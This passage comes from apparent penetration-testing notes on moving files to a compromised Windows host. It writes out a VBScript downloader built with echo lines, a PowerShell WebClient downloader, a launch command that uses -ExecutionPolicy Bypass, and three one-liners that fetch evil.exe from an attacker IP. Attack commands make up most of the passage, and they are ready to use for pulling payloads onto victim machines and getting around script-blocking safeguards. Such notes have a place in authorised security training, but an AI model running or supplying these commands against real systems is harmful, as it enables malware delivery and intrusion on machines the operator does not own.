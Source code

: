 ```vb
echo  http.Open "GET", strURL, False >> wget.vbs  
echo  http.Send >> wget.vbs  
echo  varByteArray = http.ResponseBody >> wget.vbs  
echo  Set http = Nothing >> wget.vbs  
echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs  
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs  
echo  strData = "" >> wget.vbs  
echo  strBuffer = "" >> wget.vbs  
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs  
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs  
echo  Next >> wget.vbs  
echo  ts.Close >> wget.vbs
```

We would then copy/paste these commands into the compromised comp's terminal and run the **wget.vbs** script:  
  
Run w/ **cscript**:  
```powershell
cscript wget.vbs http://attacker_ip/evil.exe evil.exe
```


OR  


Ex **wget.ps1.txt**:  
```powershell
echo $webclient = New-Object System.Net.WebClient >>wget.ps1  
echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1  
echo $file = "new-exploit.exe" >>wget.ps1  
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Again, we'd copy/paste these commands into the compromised comp's terminal and run the resulting **wget.ps1** script:  
  
For proper running:  
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
.
- **-ExecutionPolicy Bypass** - Bypasses the current ExecutionPolicy  
	- Safety feature that controls the conditions under which PS loads configuration files and runs scripts.  
		- Feature used to specifically prevent running of malicious scripts  
- **-NoLogo** - Hides PS's logo banner  
- **-NonInteractive** - Suppress interactive PS prompt  
- **-NoProfile** - Prevent PS loading the default profile.  
- **-File** - Specifiy the script  
  
  
One-Liner version:  
```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')

OR

powershell.exe Invoke-Webrequest -URI http://10.11.0.4/evil.exe -OutFile "new-exploit.exe"


OR

powershell.exe Start-BitsTransfer -Source http://10.11.0.4/evil.exe -Destination "new-exploit.exe"
```
